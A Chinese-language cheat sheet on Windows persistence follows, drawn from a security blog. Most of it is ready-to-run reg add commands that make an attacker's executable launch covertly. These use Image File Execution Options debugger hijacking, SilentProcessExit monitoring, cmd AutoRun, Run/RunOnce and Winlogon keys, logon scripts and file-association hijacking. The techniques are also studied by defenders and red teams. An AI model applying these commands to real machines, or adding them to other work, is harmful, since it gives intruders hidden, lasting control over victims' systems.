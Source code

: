 # windows 权限维持

---

来源：http://diego.team/2021/03/02/Windows-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/

**映像劫持**

- 1.效果：运行xxx.exe即运行m的exe，但不会运行xxx.exe

（管理员权限）通过修改下述注册表，添加劫持的exe名称，添加字符串值Debugger为你的m的路径

```
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\ 
即
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\ xxx.exe\Debugge(类型：REG_SZ)：m的exe路径
```

也可通过cmd命令进行设置

```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\GetPass.exe" /v Debugger /t REG_SZ /d "exe路径"
查看是否设置成功
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\GetPass.exe"
```

- 2.效果：目标程序结束后，再自动执行（A程序为正常运行的，B为A退出后运行）
```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\A.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\A.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\A.exe" /v MonitorProcess /t REG_SZ /d "B.exe路径"
```

**跟随cmd自启动**

效果：使用cmd.exe就会伴随启动

```
reg add "\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "exe路径"
```

**自启动**

- HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows

```
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windowse" /v load /t REG_SZ /d "exe路径"
```

- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
往userinit 追加数据 用逗号分隔可以执行多程序
```

- Run和Runonce
```
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce

\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run
\HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce
```

- HKEY_CURRENT_USER\Environment

```
reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "exe路径"
```

**修改文件关联注册表**

运行相关后缀文件都会运行m

```
exe关联  HKEY_CLASSES_ROOT\exefile\shell\open\command  #将"%1" %* -> exe路径 "%1" %*
txt关联  HKEY_CLASSES_ROOT\txtfile\shell\open\command
xxx关联  HKEY_CLASSES_ROOT\后缀+file\shell\open\command
```

